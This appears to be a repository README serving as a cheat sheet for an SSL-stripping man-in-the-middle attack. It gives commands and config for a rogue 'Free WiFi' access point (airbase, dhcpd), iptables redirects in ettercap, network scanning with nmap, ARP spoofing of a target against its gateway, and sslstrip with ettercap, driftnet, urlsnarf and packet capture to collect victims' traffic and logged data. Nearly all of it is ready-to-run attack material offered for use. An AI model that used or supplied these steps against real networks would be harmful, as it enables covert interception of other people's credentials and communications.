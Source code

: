 # SSL Strip

# add a fix me script, using assets
	./airbase-start.sh
	./rogue-mitm.sh
	sslstrip -f -p -k 10000
	ettercap -p -u -T -q -i at0
	driftnet -i eth0

## Manual Setup

	nano etter.conf
```
[privs]
ec_uid = 0                # nobody is the default
ec_gid = 0                # nobody is the default

# if you use iptables:
redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %por$
redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %po$
```

	nano dhcpd.conf
```
subnet 10.0.0.0 netmask 255.255.255.0 {
option routers 10.0.0.1;
option subnet-mask 255.255.255.0;

option domain-name "Free WiFi";
option domain-name-servers 10.0.0.1;

range 10.0.0.20 10.0.0.50;
}
```

## Commands

	netdiscover

nmap -sS -O {gateway}
	nmap -sS -O 192.168.1.1/24

arpspoof -i {interface} -t {target} -r {gateway}
	arpspoof -i eth0 -t 192.168.1.25 -r 192.168.1.1

sslstrip -f -p -k {port}
	sslstrip -f -p -k 10000

ettercap -p -u -T -q -i {interface}
	ettercap -p -u -T -q -i at0

---

# read strip log
	cat ~/sslstrip.log

# wireshark
	tshark -D
	dumpcap -i wlan0
	dumpcap -i 1 -b files:100 -b filesize:30000 -w internet.pcap

# monitor
	driftnet -i wlan0
	urlsnarf -i wlan0

